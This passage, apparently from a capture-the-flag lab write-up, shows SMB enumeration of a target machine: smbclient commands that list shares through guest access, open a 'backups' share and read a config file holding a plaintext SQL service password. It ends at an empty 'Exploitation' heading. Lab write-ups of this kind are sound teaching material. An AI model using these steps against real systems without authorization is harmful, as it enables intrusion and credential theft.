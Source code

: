 ## SMB Enumeration

From the Nmap scan, we observed that the SMB service on port `445` is running and, importantly, it allows guest access. This means we can connect without needing a password, which is often a potential vector to gather information. Using the `smbclient` tool, we list the shares accessible to the guest user.

```
smbclient -L 10.129.188.82 -U "guest"
Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

The output shows several shares, including typical administrative shares like `ADMIN$` and `C$`, but also a share called `backups` that looks promising for further investigation. We connect to the `backups` share as `guest`.

```
smbclient \\\\10.129.188.82\\backups -U "guest"
Password for [WORKGROUP\guest]:
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
```

Listing the directory inside this share reveals a configuration file. Inspecting the contents of `prod.dtsConfig`, we uncover connection details (probably to the Microsoft SQL Server), including a username and password in plain text.

```
cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

# Exploitation
